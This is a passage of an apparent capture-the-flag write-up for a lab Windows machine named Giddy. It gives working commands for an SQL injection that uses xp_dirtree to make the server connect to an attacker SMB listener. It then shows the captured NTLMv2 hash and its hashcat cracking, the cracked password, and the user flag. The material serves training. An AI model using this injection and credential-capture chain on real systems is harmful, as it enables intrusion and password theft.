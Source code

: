 #### 4.1. Responder setup
```
# git clone https://github.com/SpiderLabs/Responder && cd Responder && sudo python Responder.py -I tun0
```


#### 4.2. SQLi out of band connection
```
# target="10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18"
# payload=";EXEC master.sys.xp_dirtree '\\\\10.10.14.25';--"
# http "$target$payload" >/dev/null
```


#### 4.3. Responder log
```
[SMB] NTLMv2-SSP Client   : 10.10.10.104
[SMB] NTLMv2-SSP Username : GIDDY\Stacy
[SMB] NTLMv2-SSP Hash     : Stacy::GIDDY:1122334455667788:A9849D546E51BC53101FFE6B53653B91:01010000000000000C931487C1BCD401EEEA2AD19AC2AA210000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D00420031003200080030003000000000000000000000000030000068C558DEB5B800985CCBBFCE7FAEB46837053E3969729F6E33F3882FDCBBEC4E0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320035000000000000000000
[SMB] Requested Share     : \\10.10.14.25\*.*
```


#### 4.4. Cracking the NTLMv2 hash
```
# list='/tmp/rockyou.txt'
# rule='/usr/local/share/doc/hashcat/rules/best64.rule'
# hashcat -m 5600 hash.txt -r $rule $list
```


#### 4.5. Connecting to the PS web interface

- URL: `https://10.10.10.104/Remote/en-US/logon.aspx` (Windows PowerShell Web Access)
- User name: `Giddy\Stacy`
- Password: `xNnWo6272k7x`
- Connection type: `Computer Name`
- Computer name: `Giddy`


#### 4.6. User flag
```
PS> type user.txt
10C1C275385280605E96ADD808C1A0AD
```
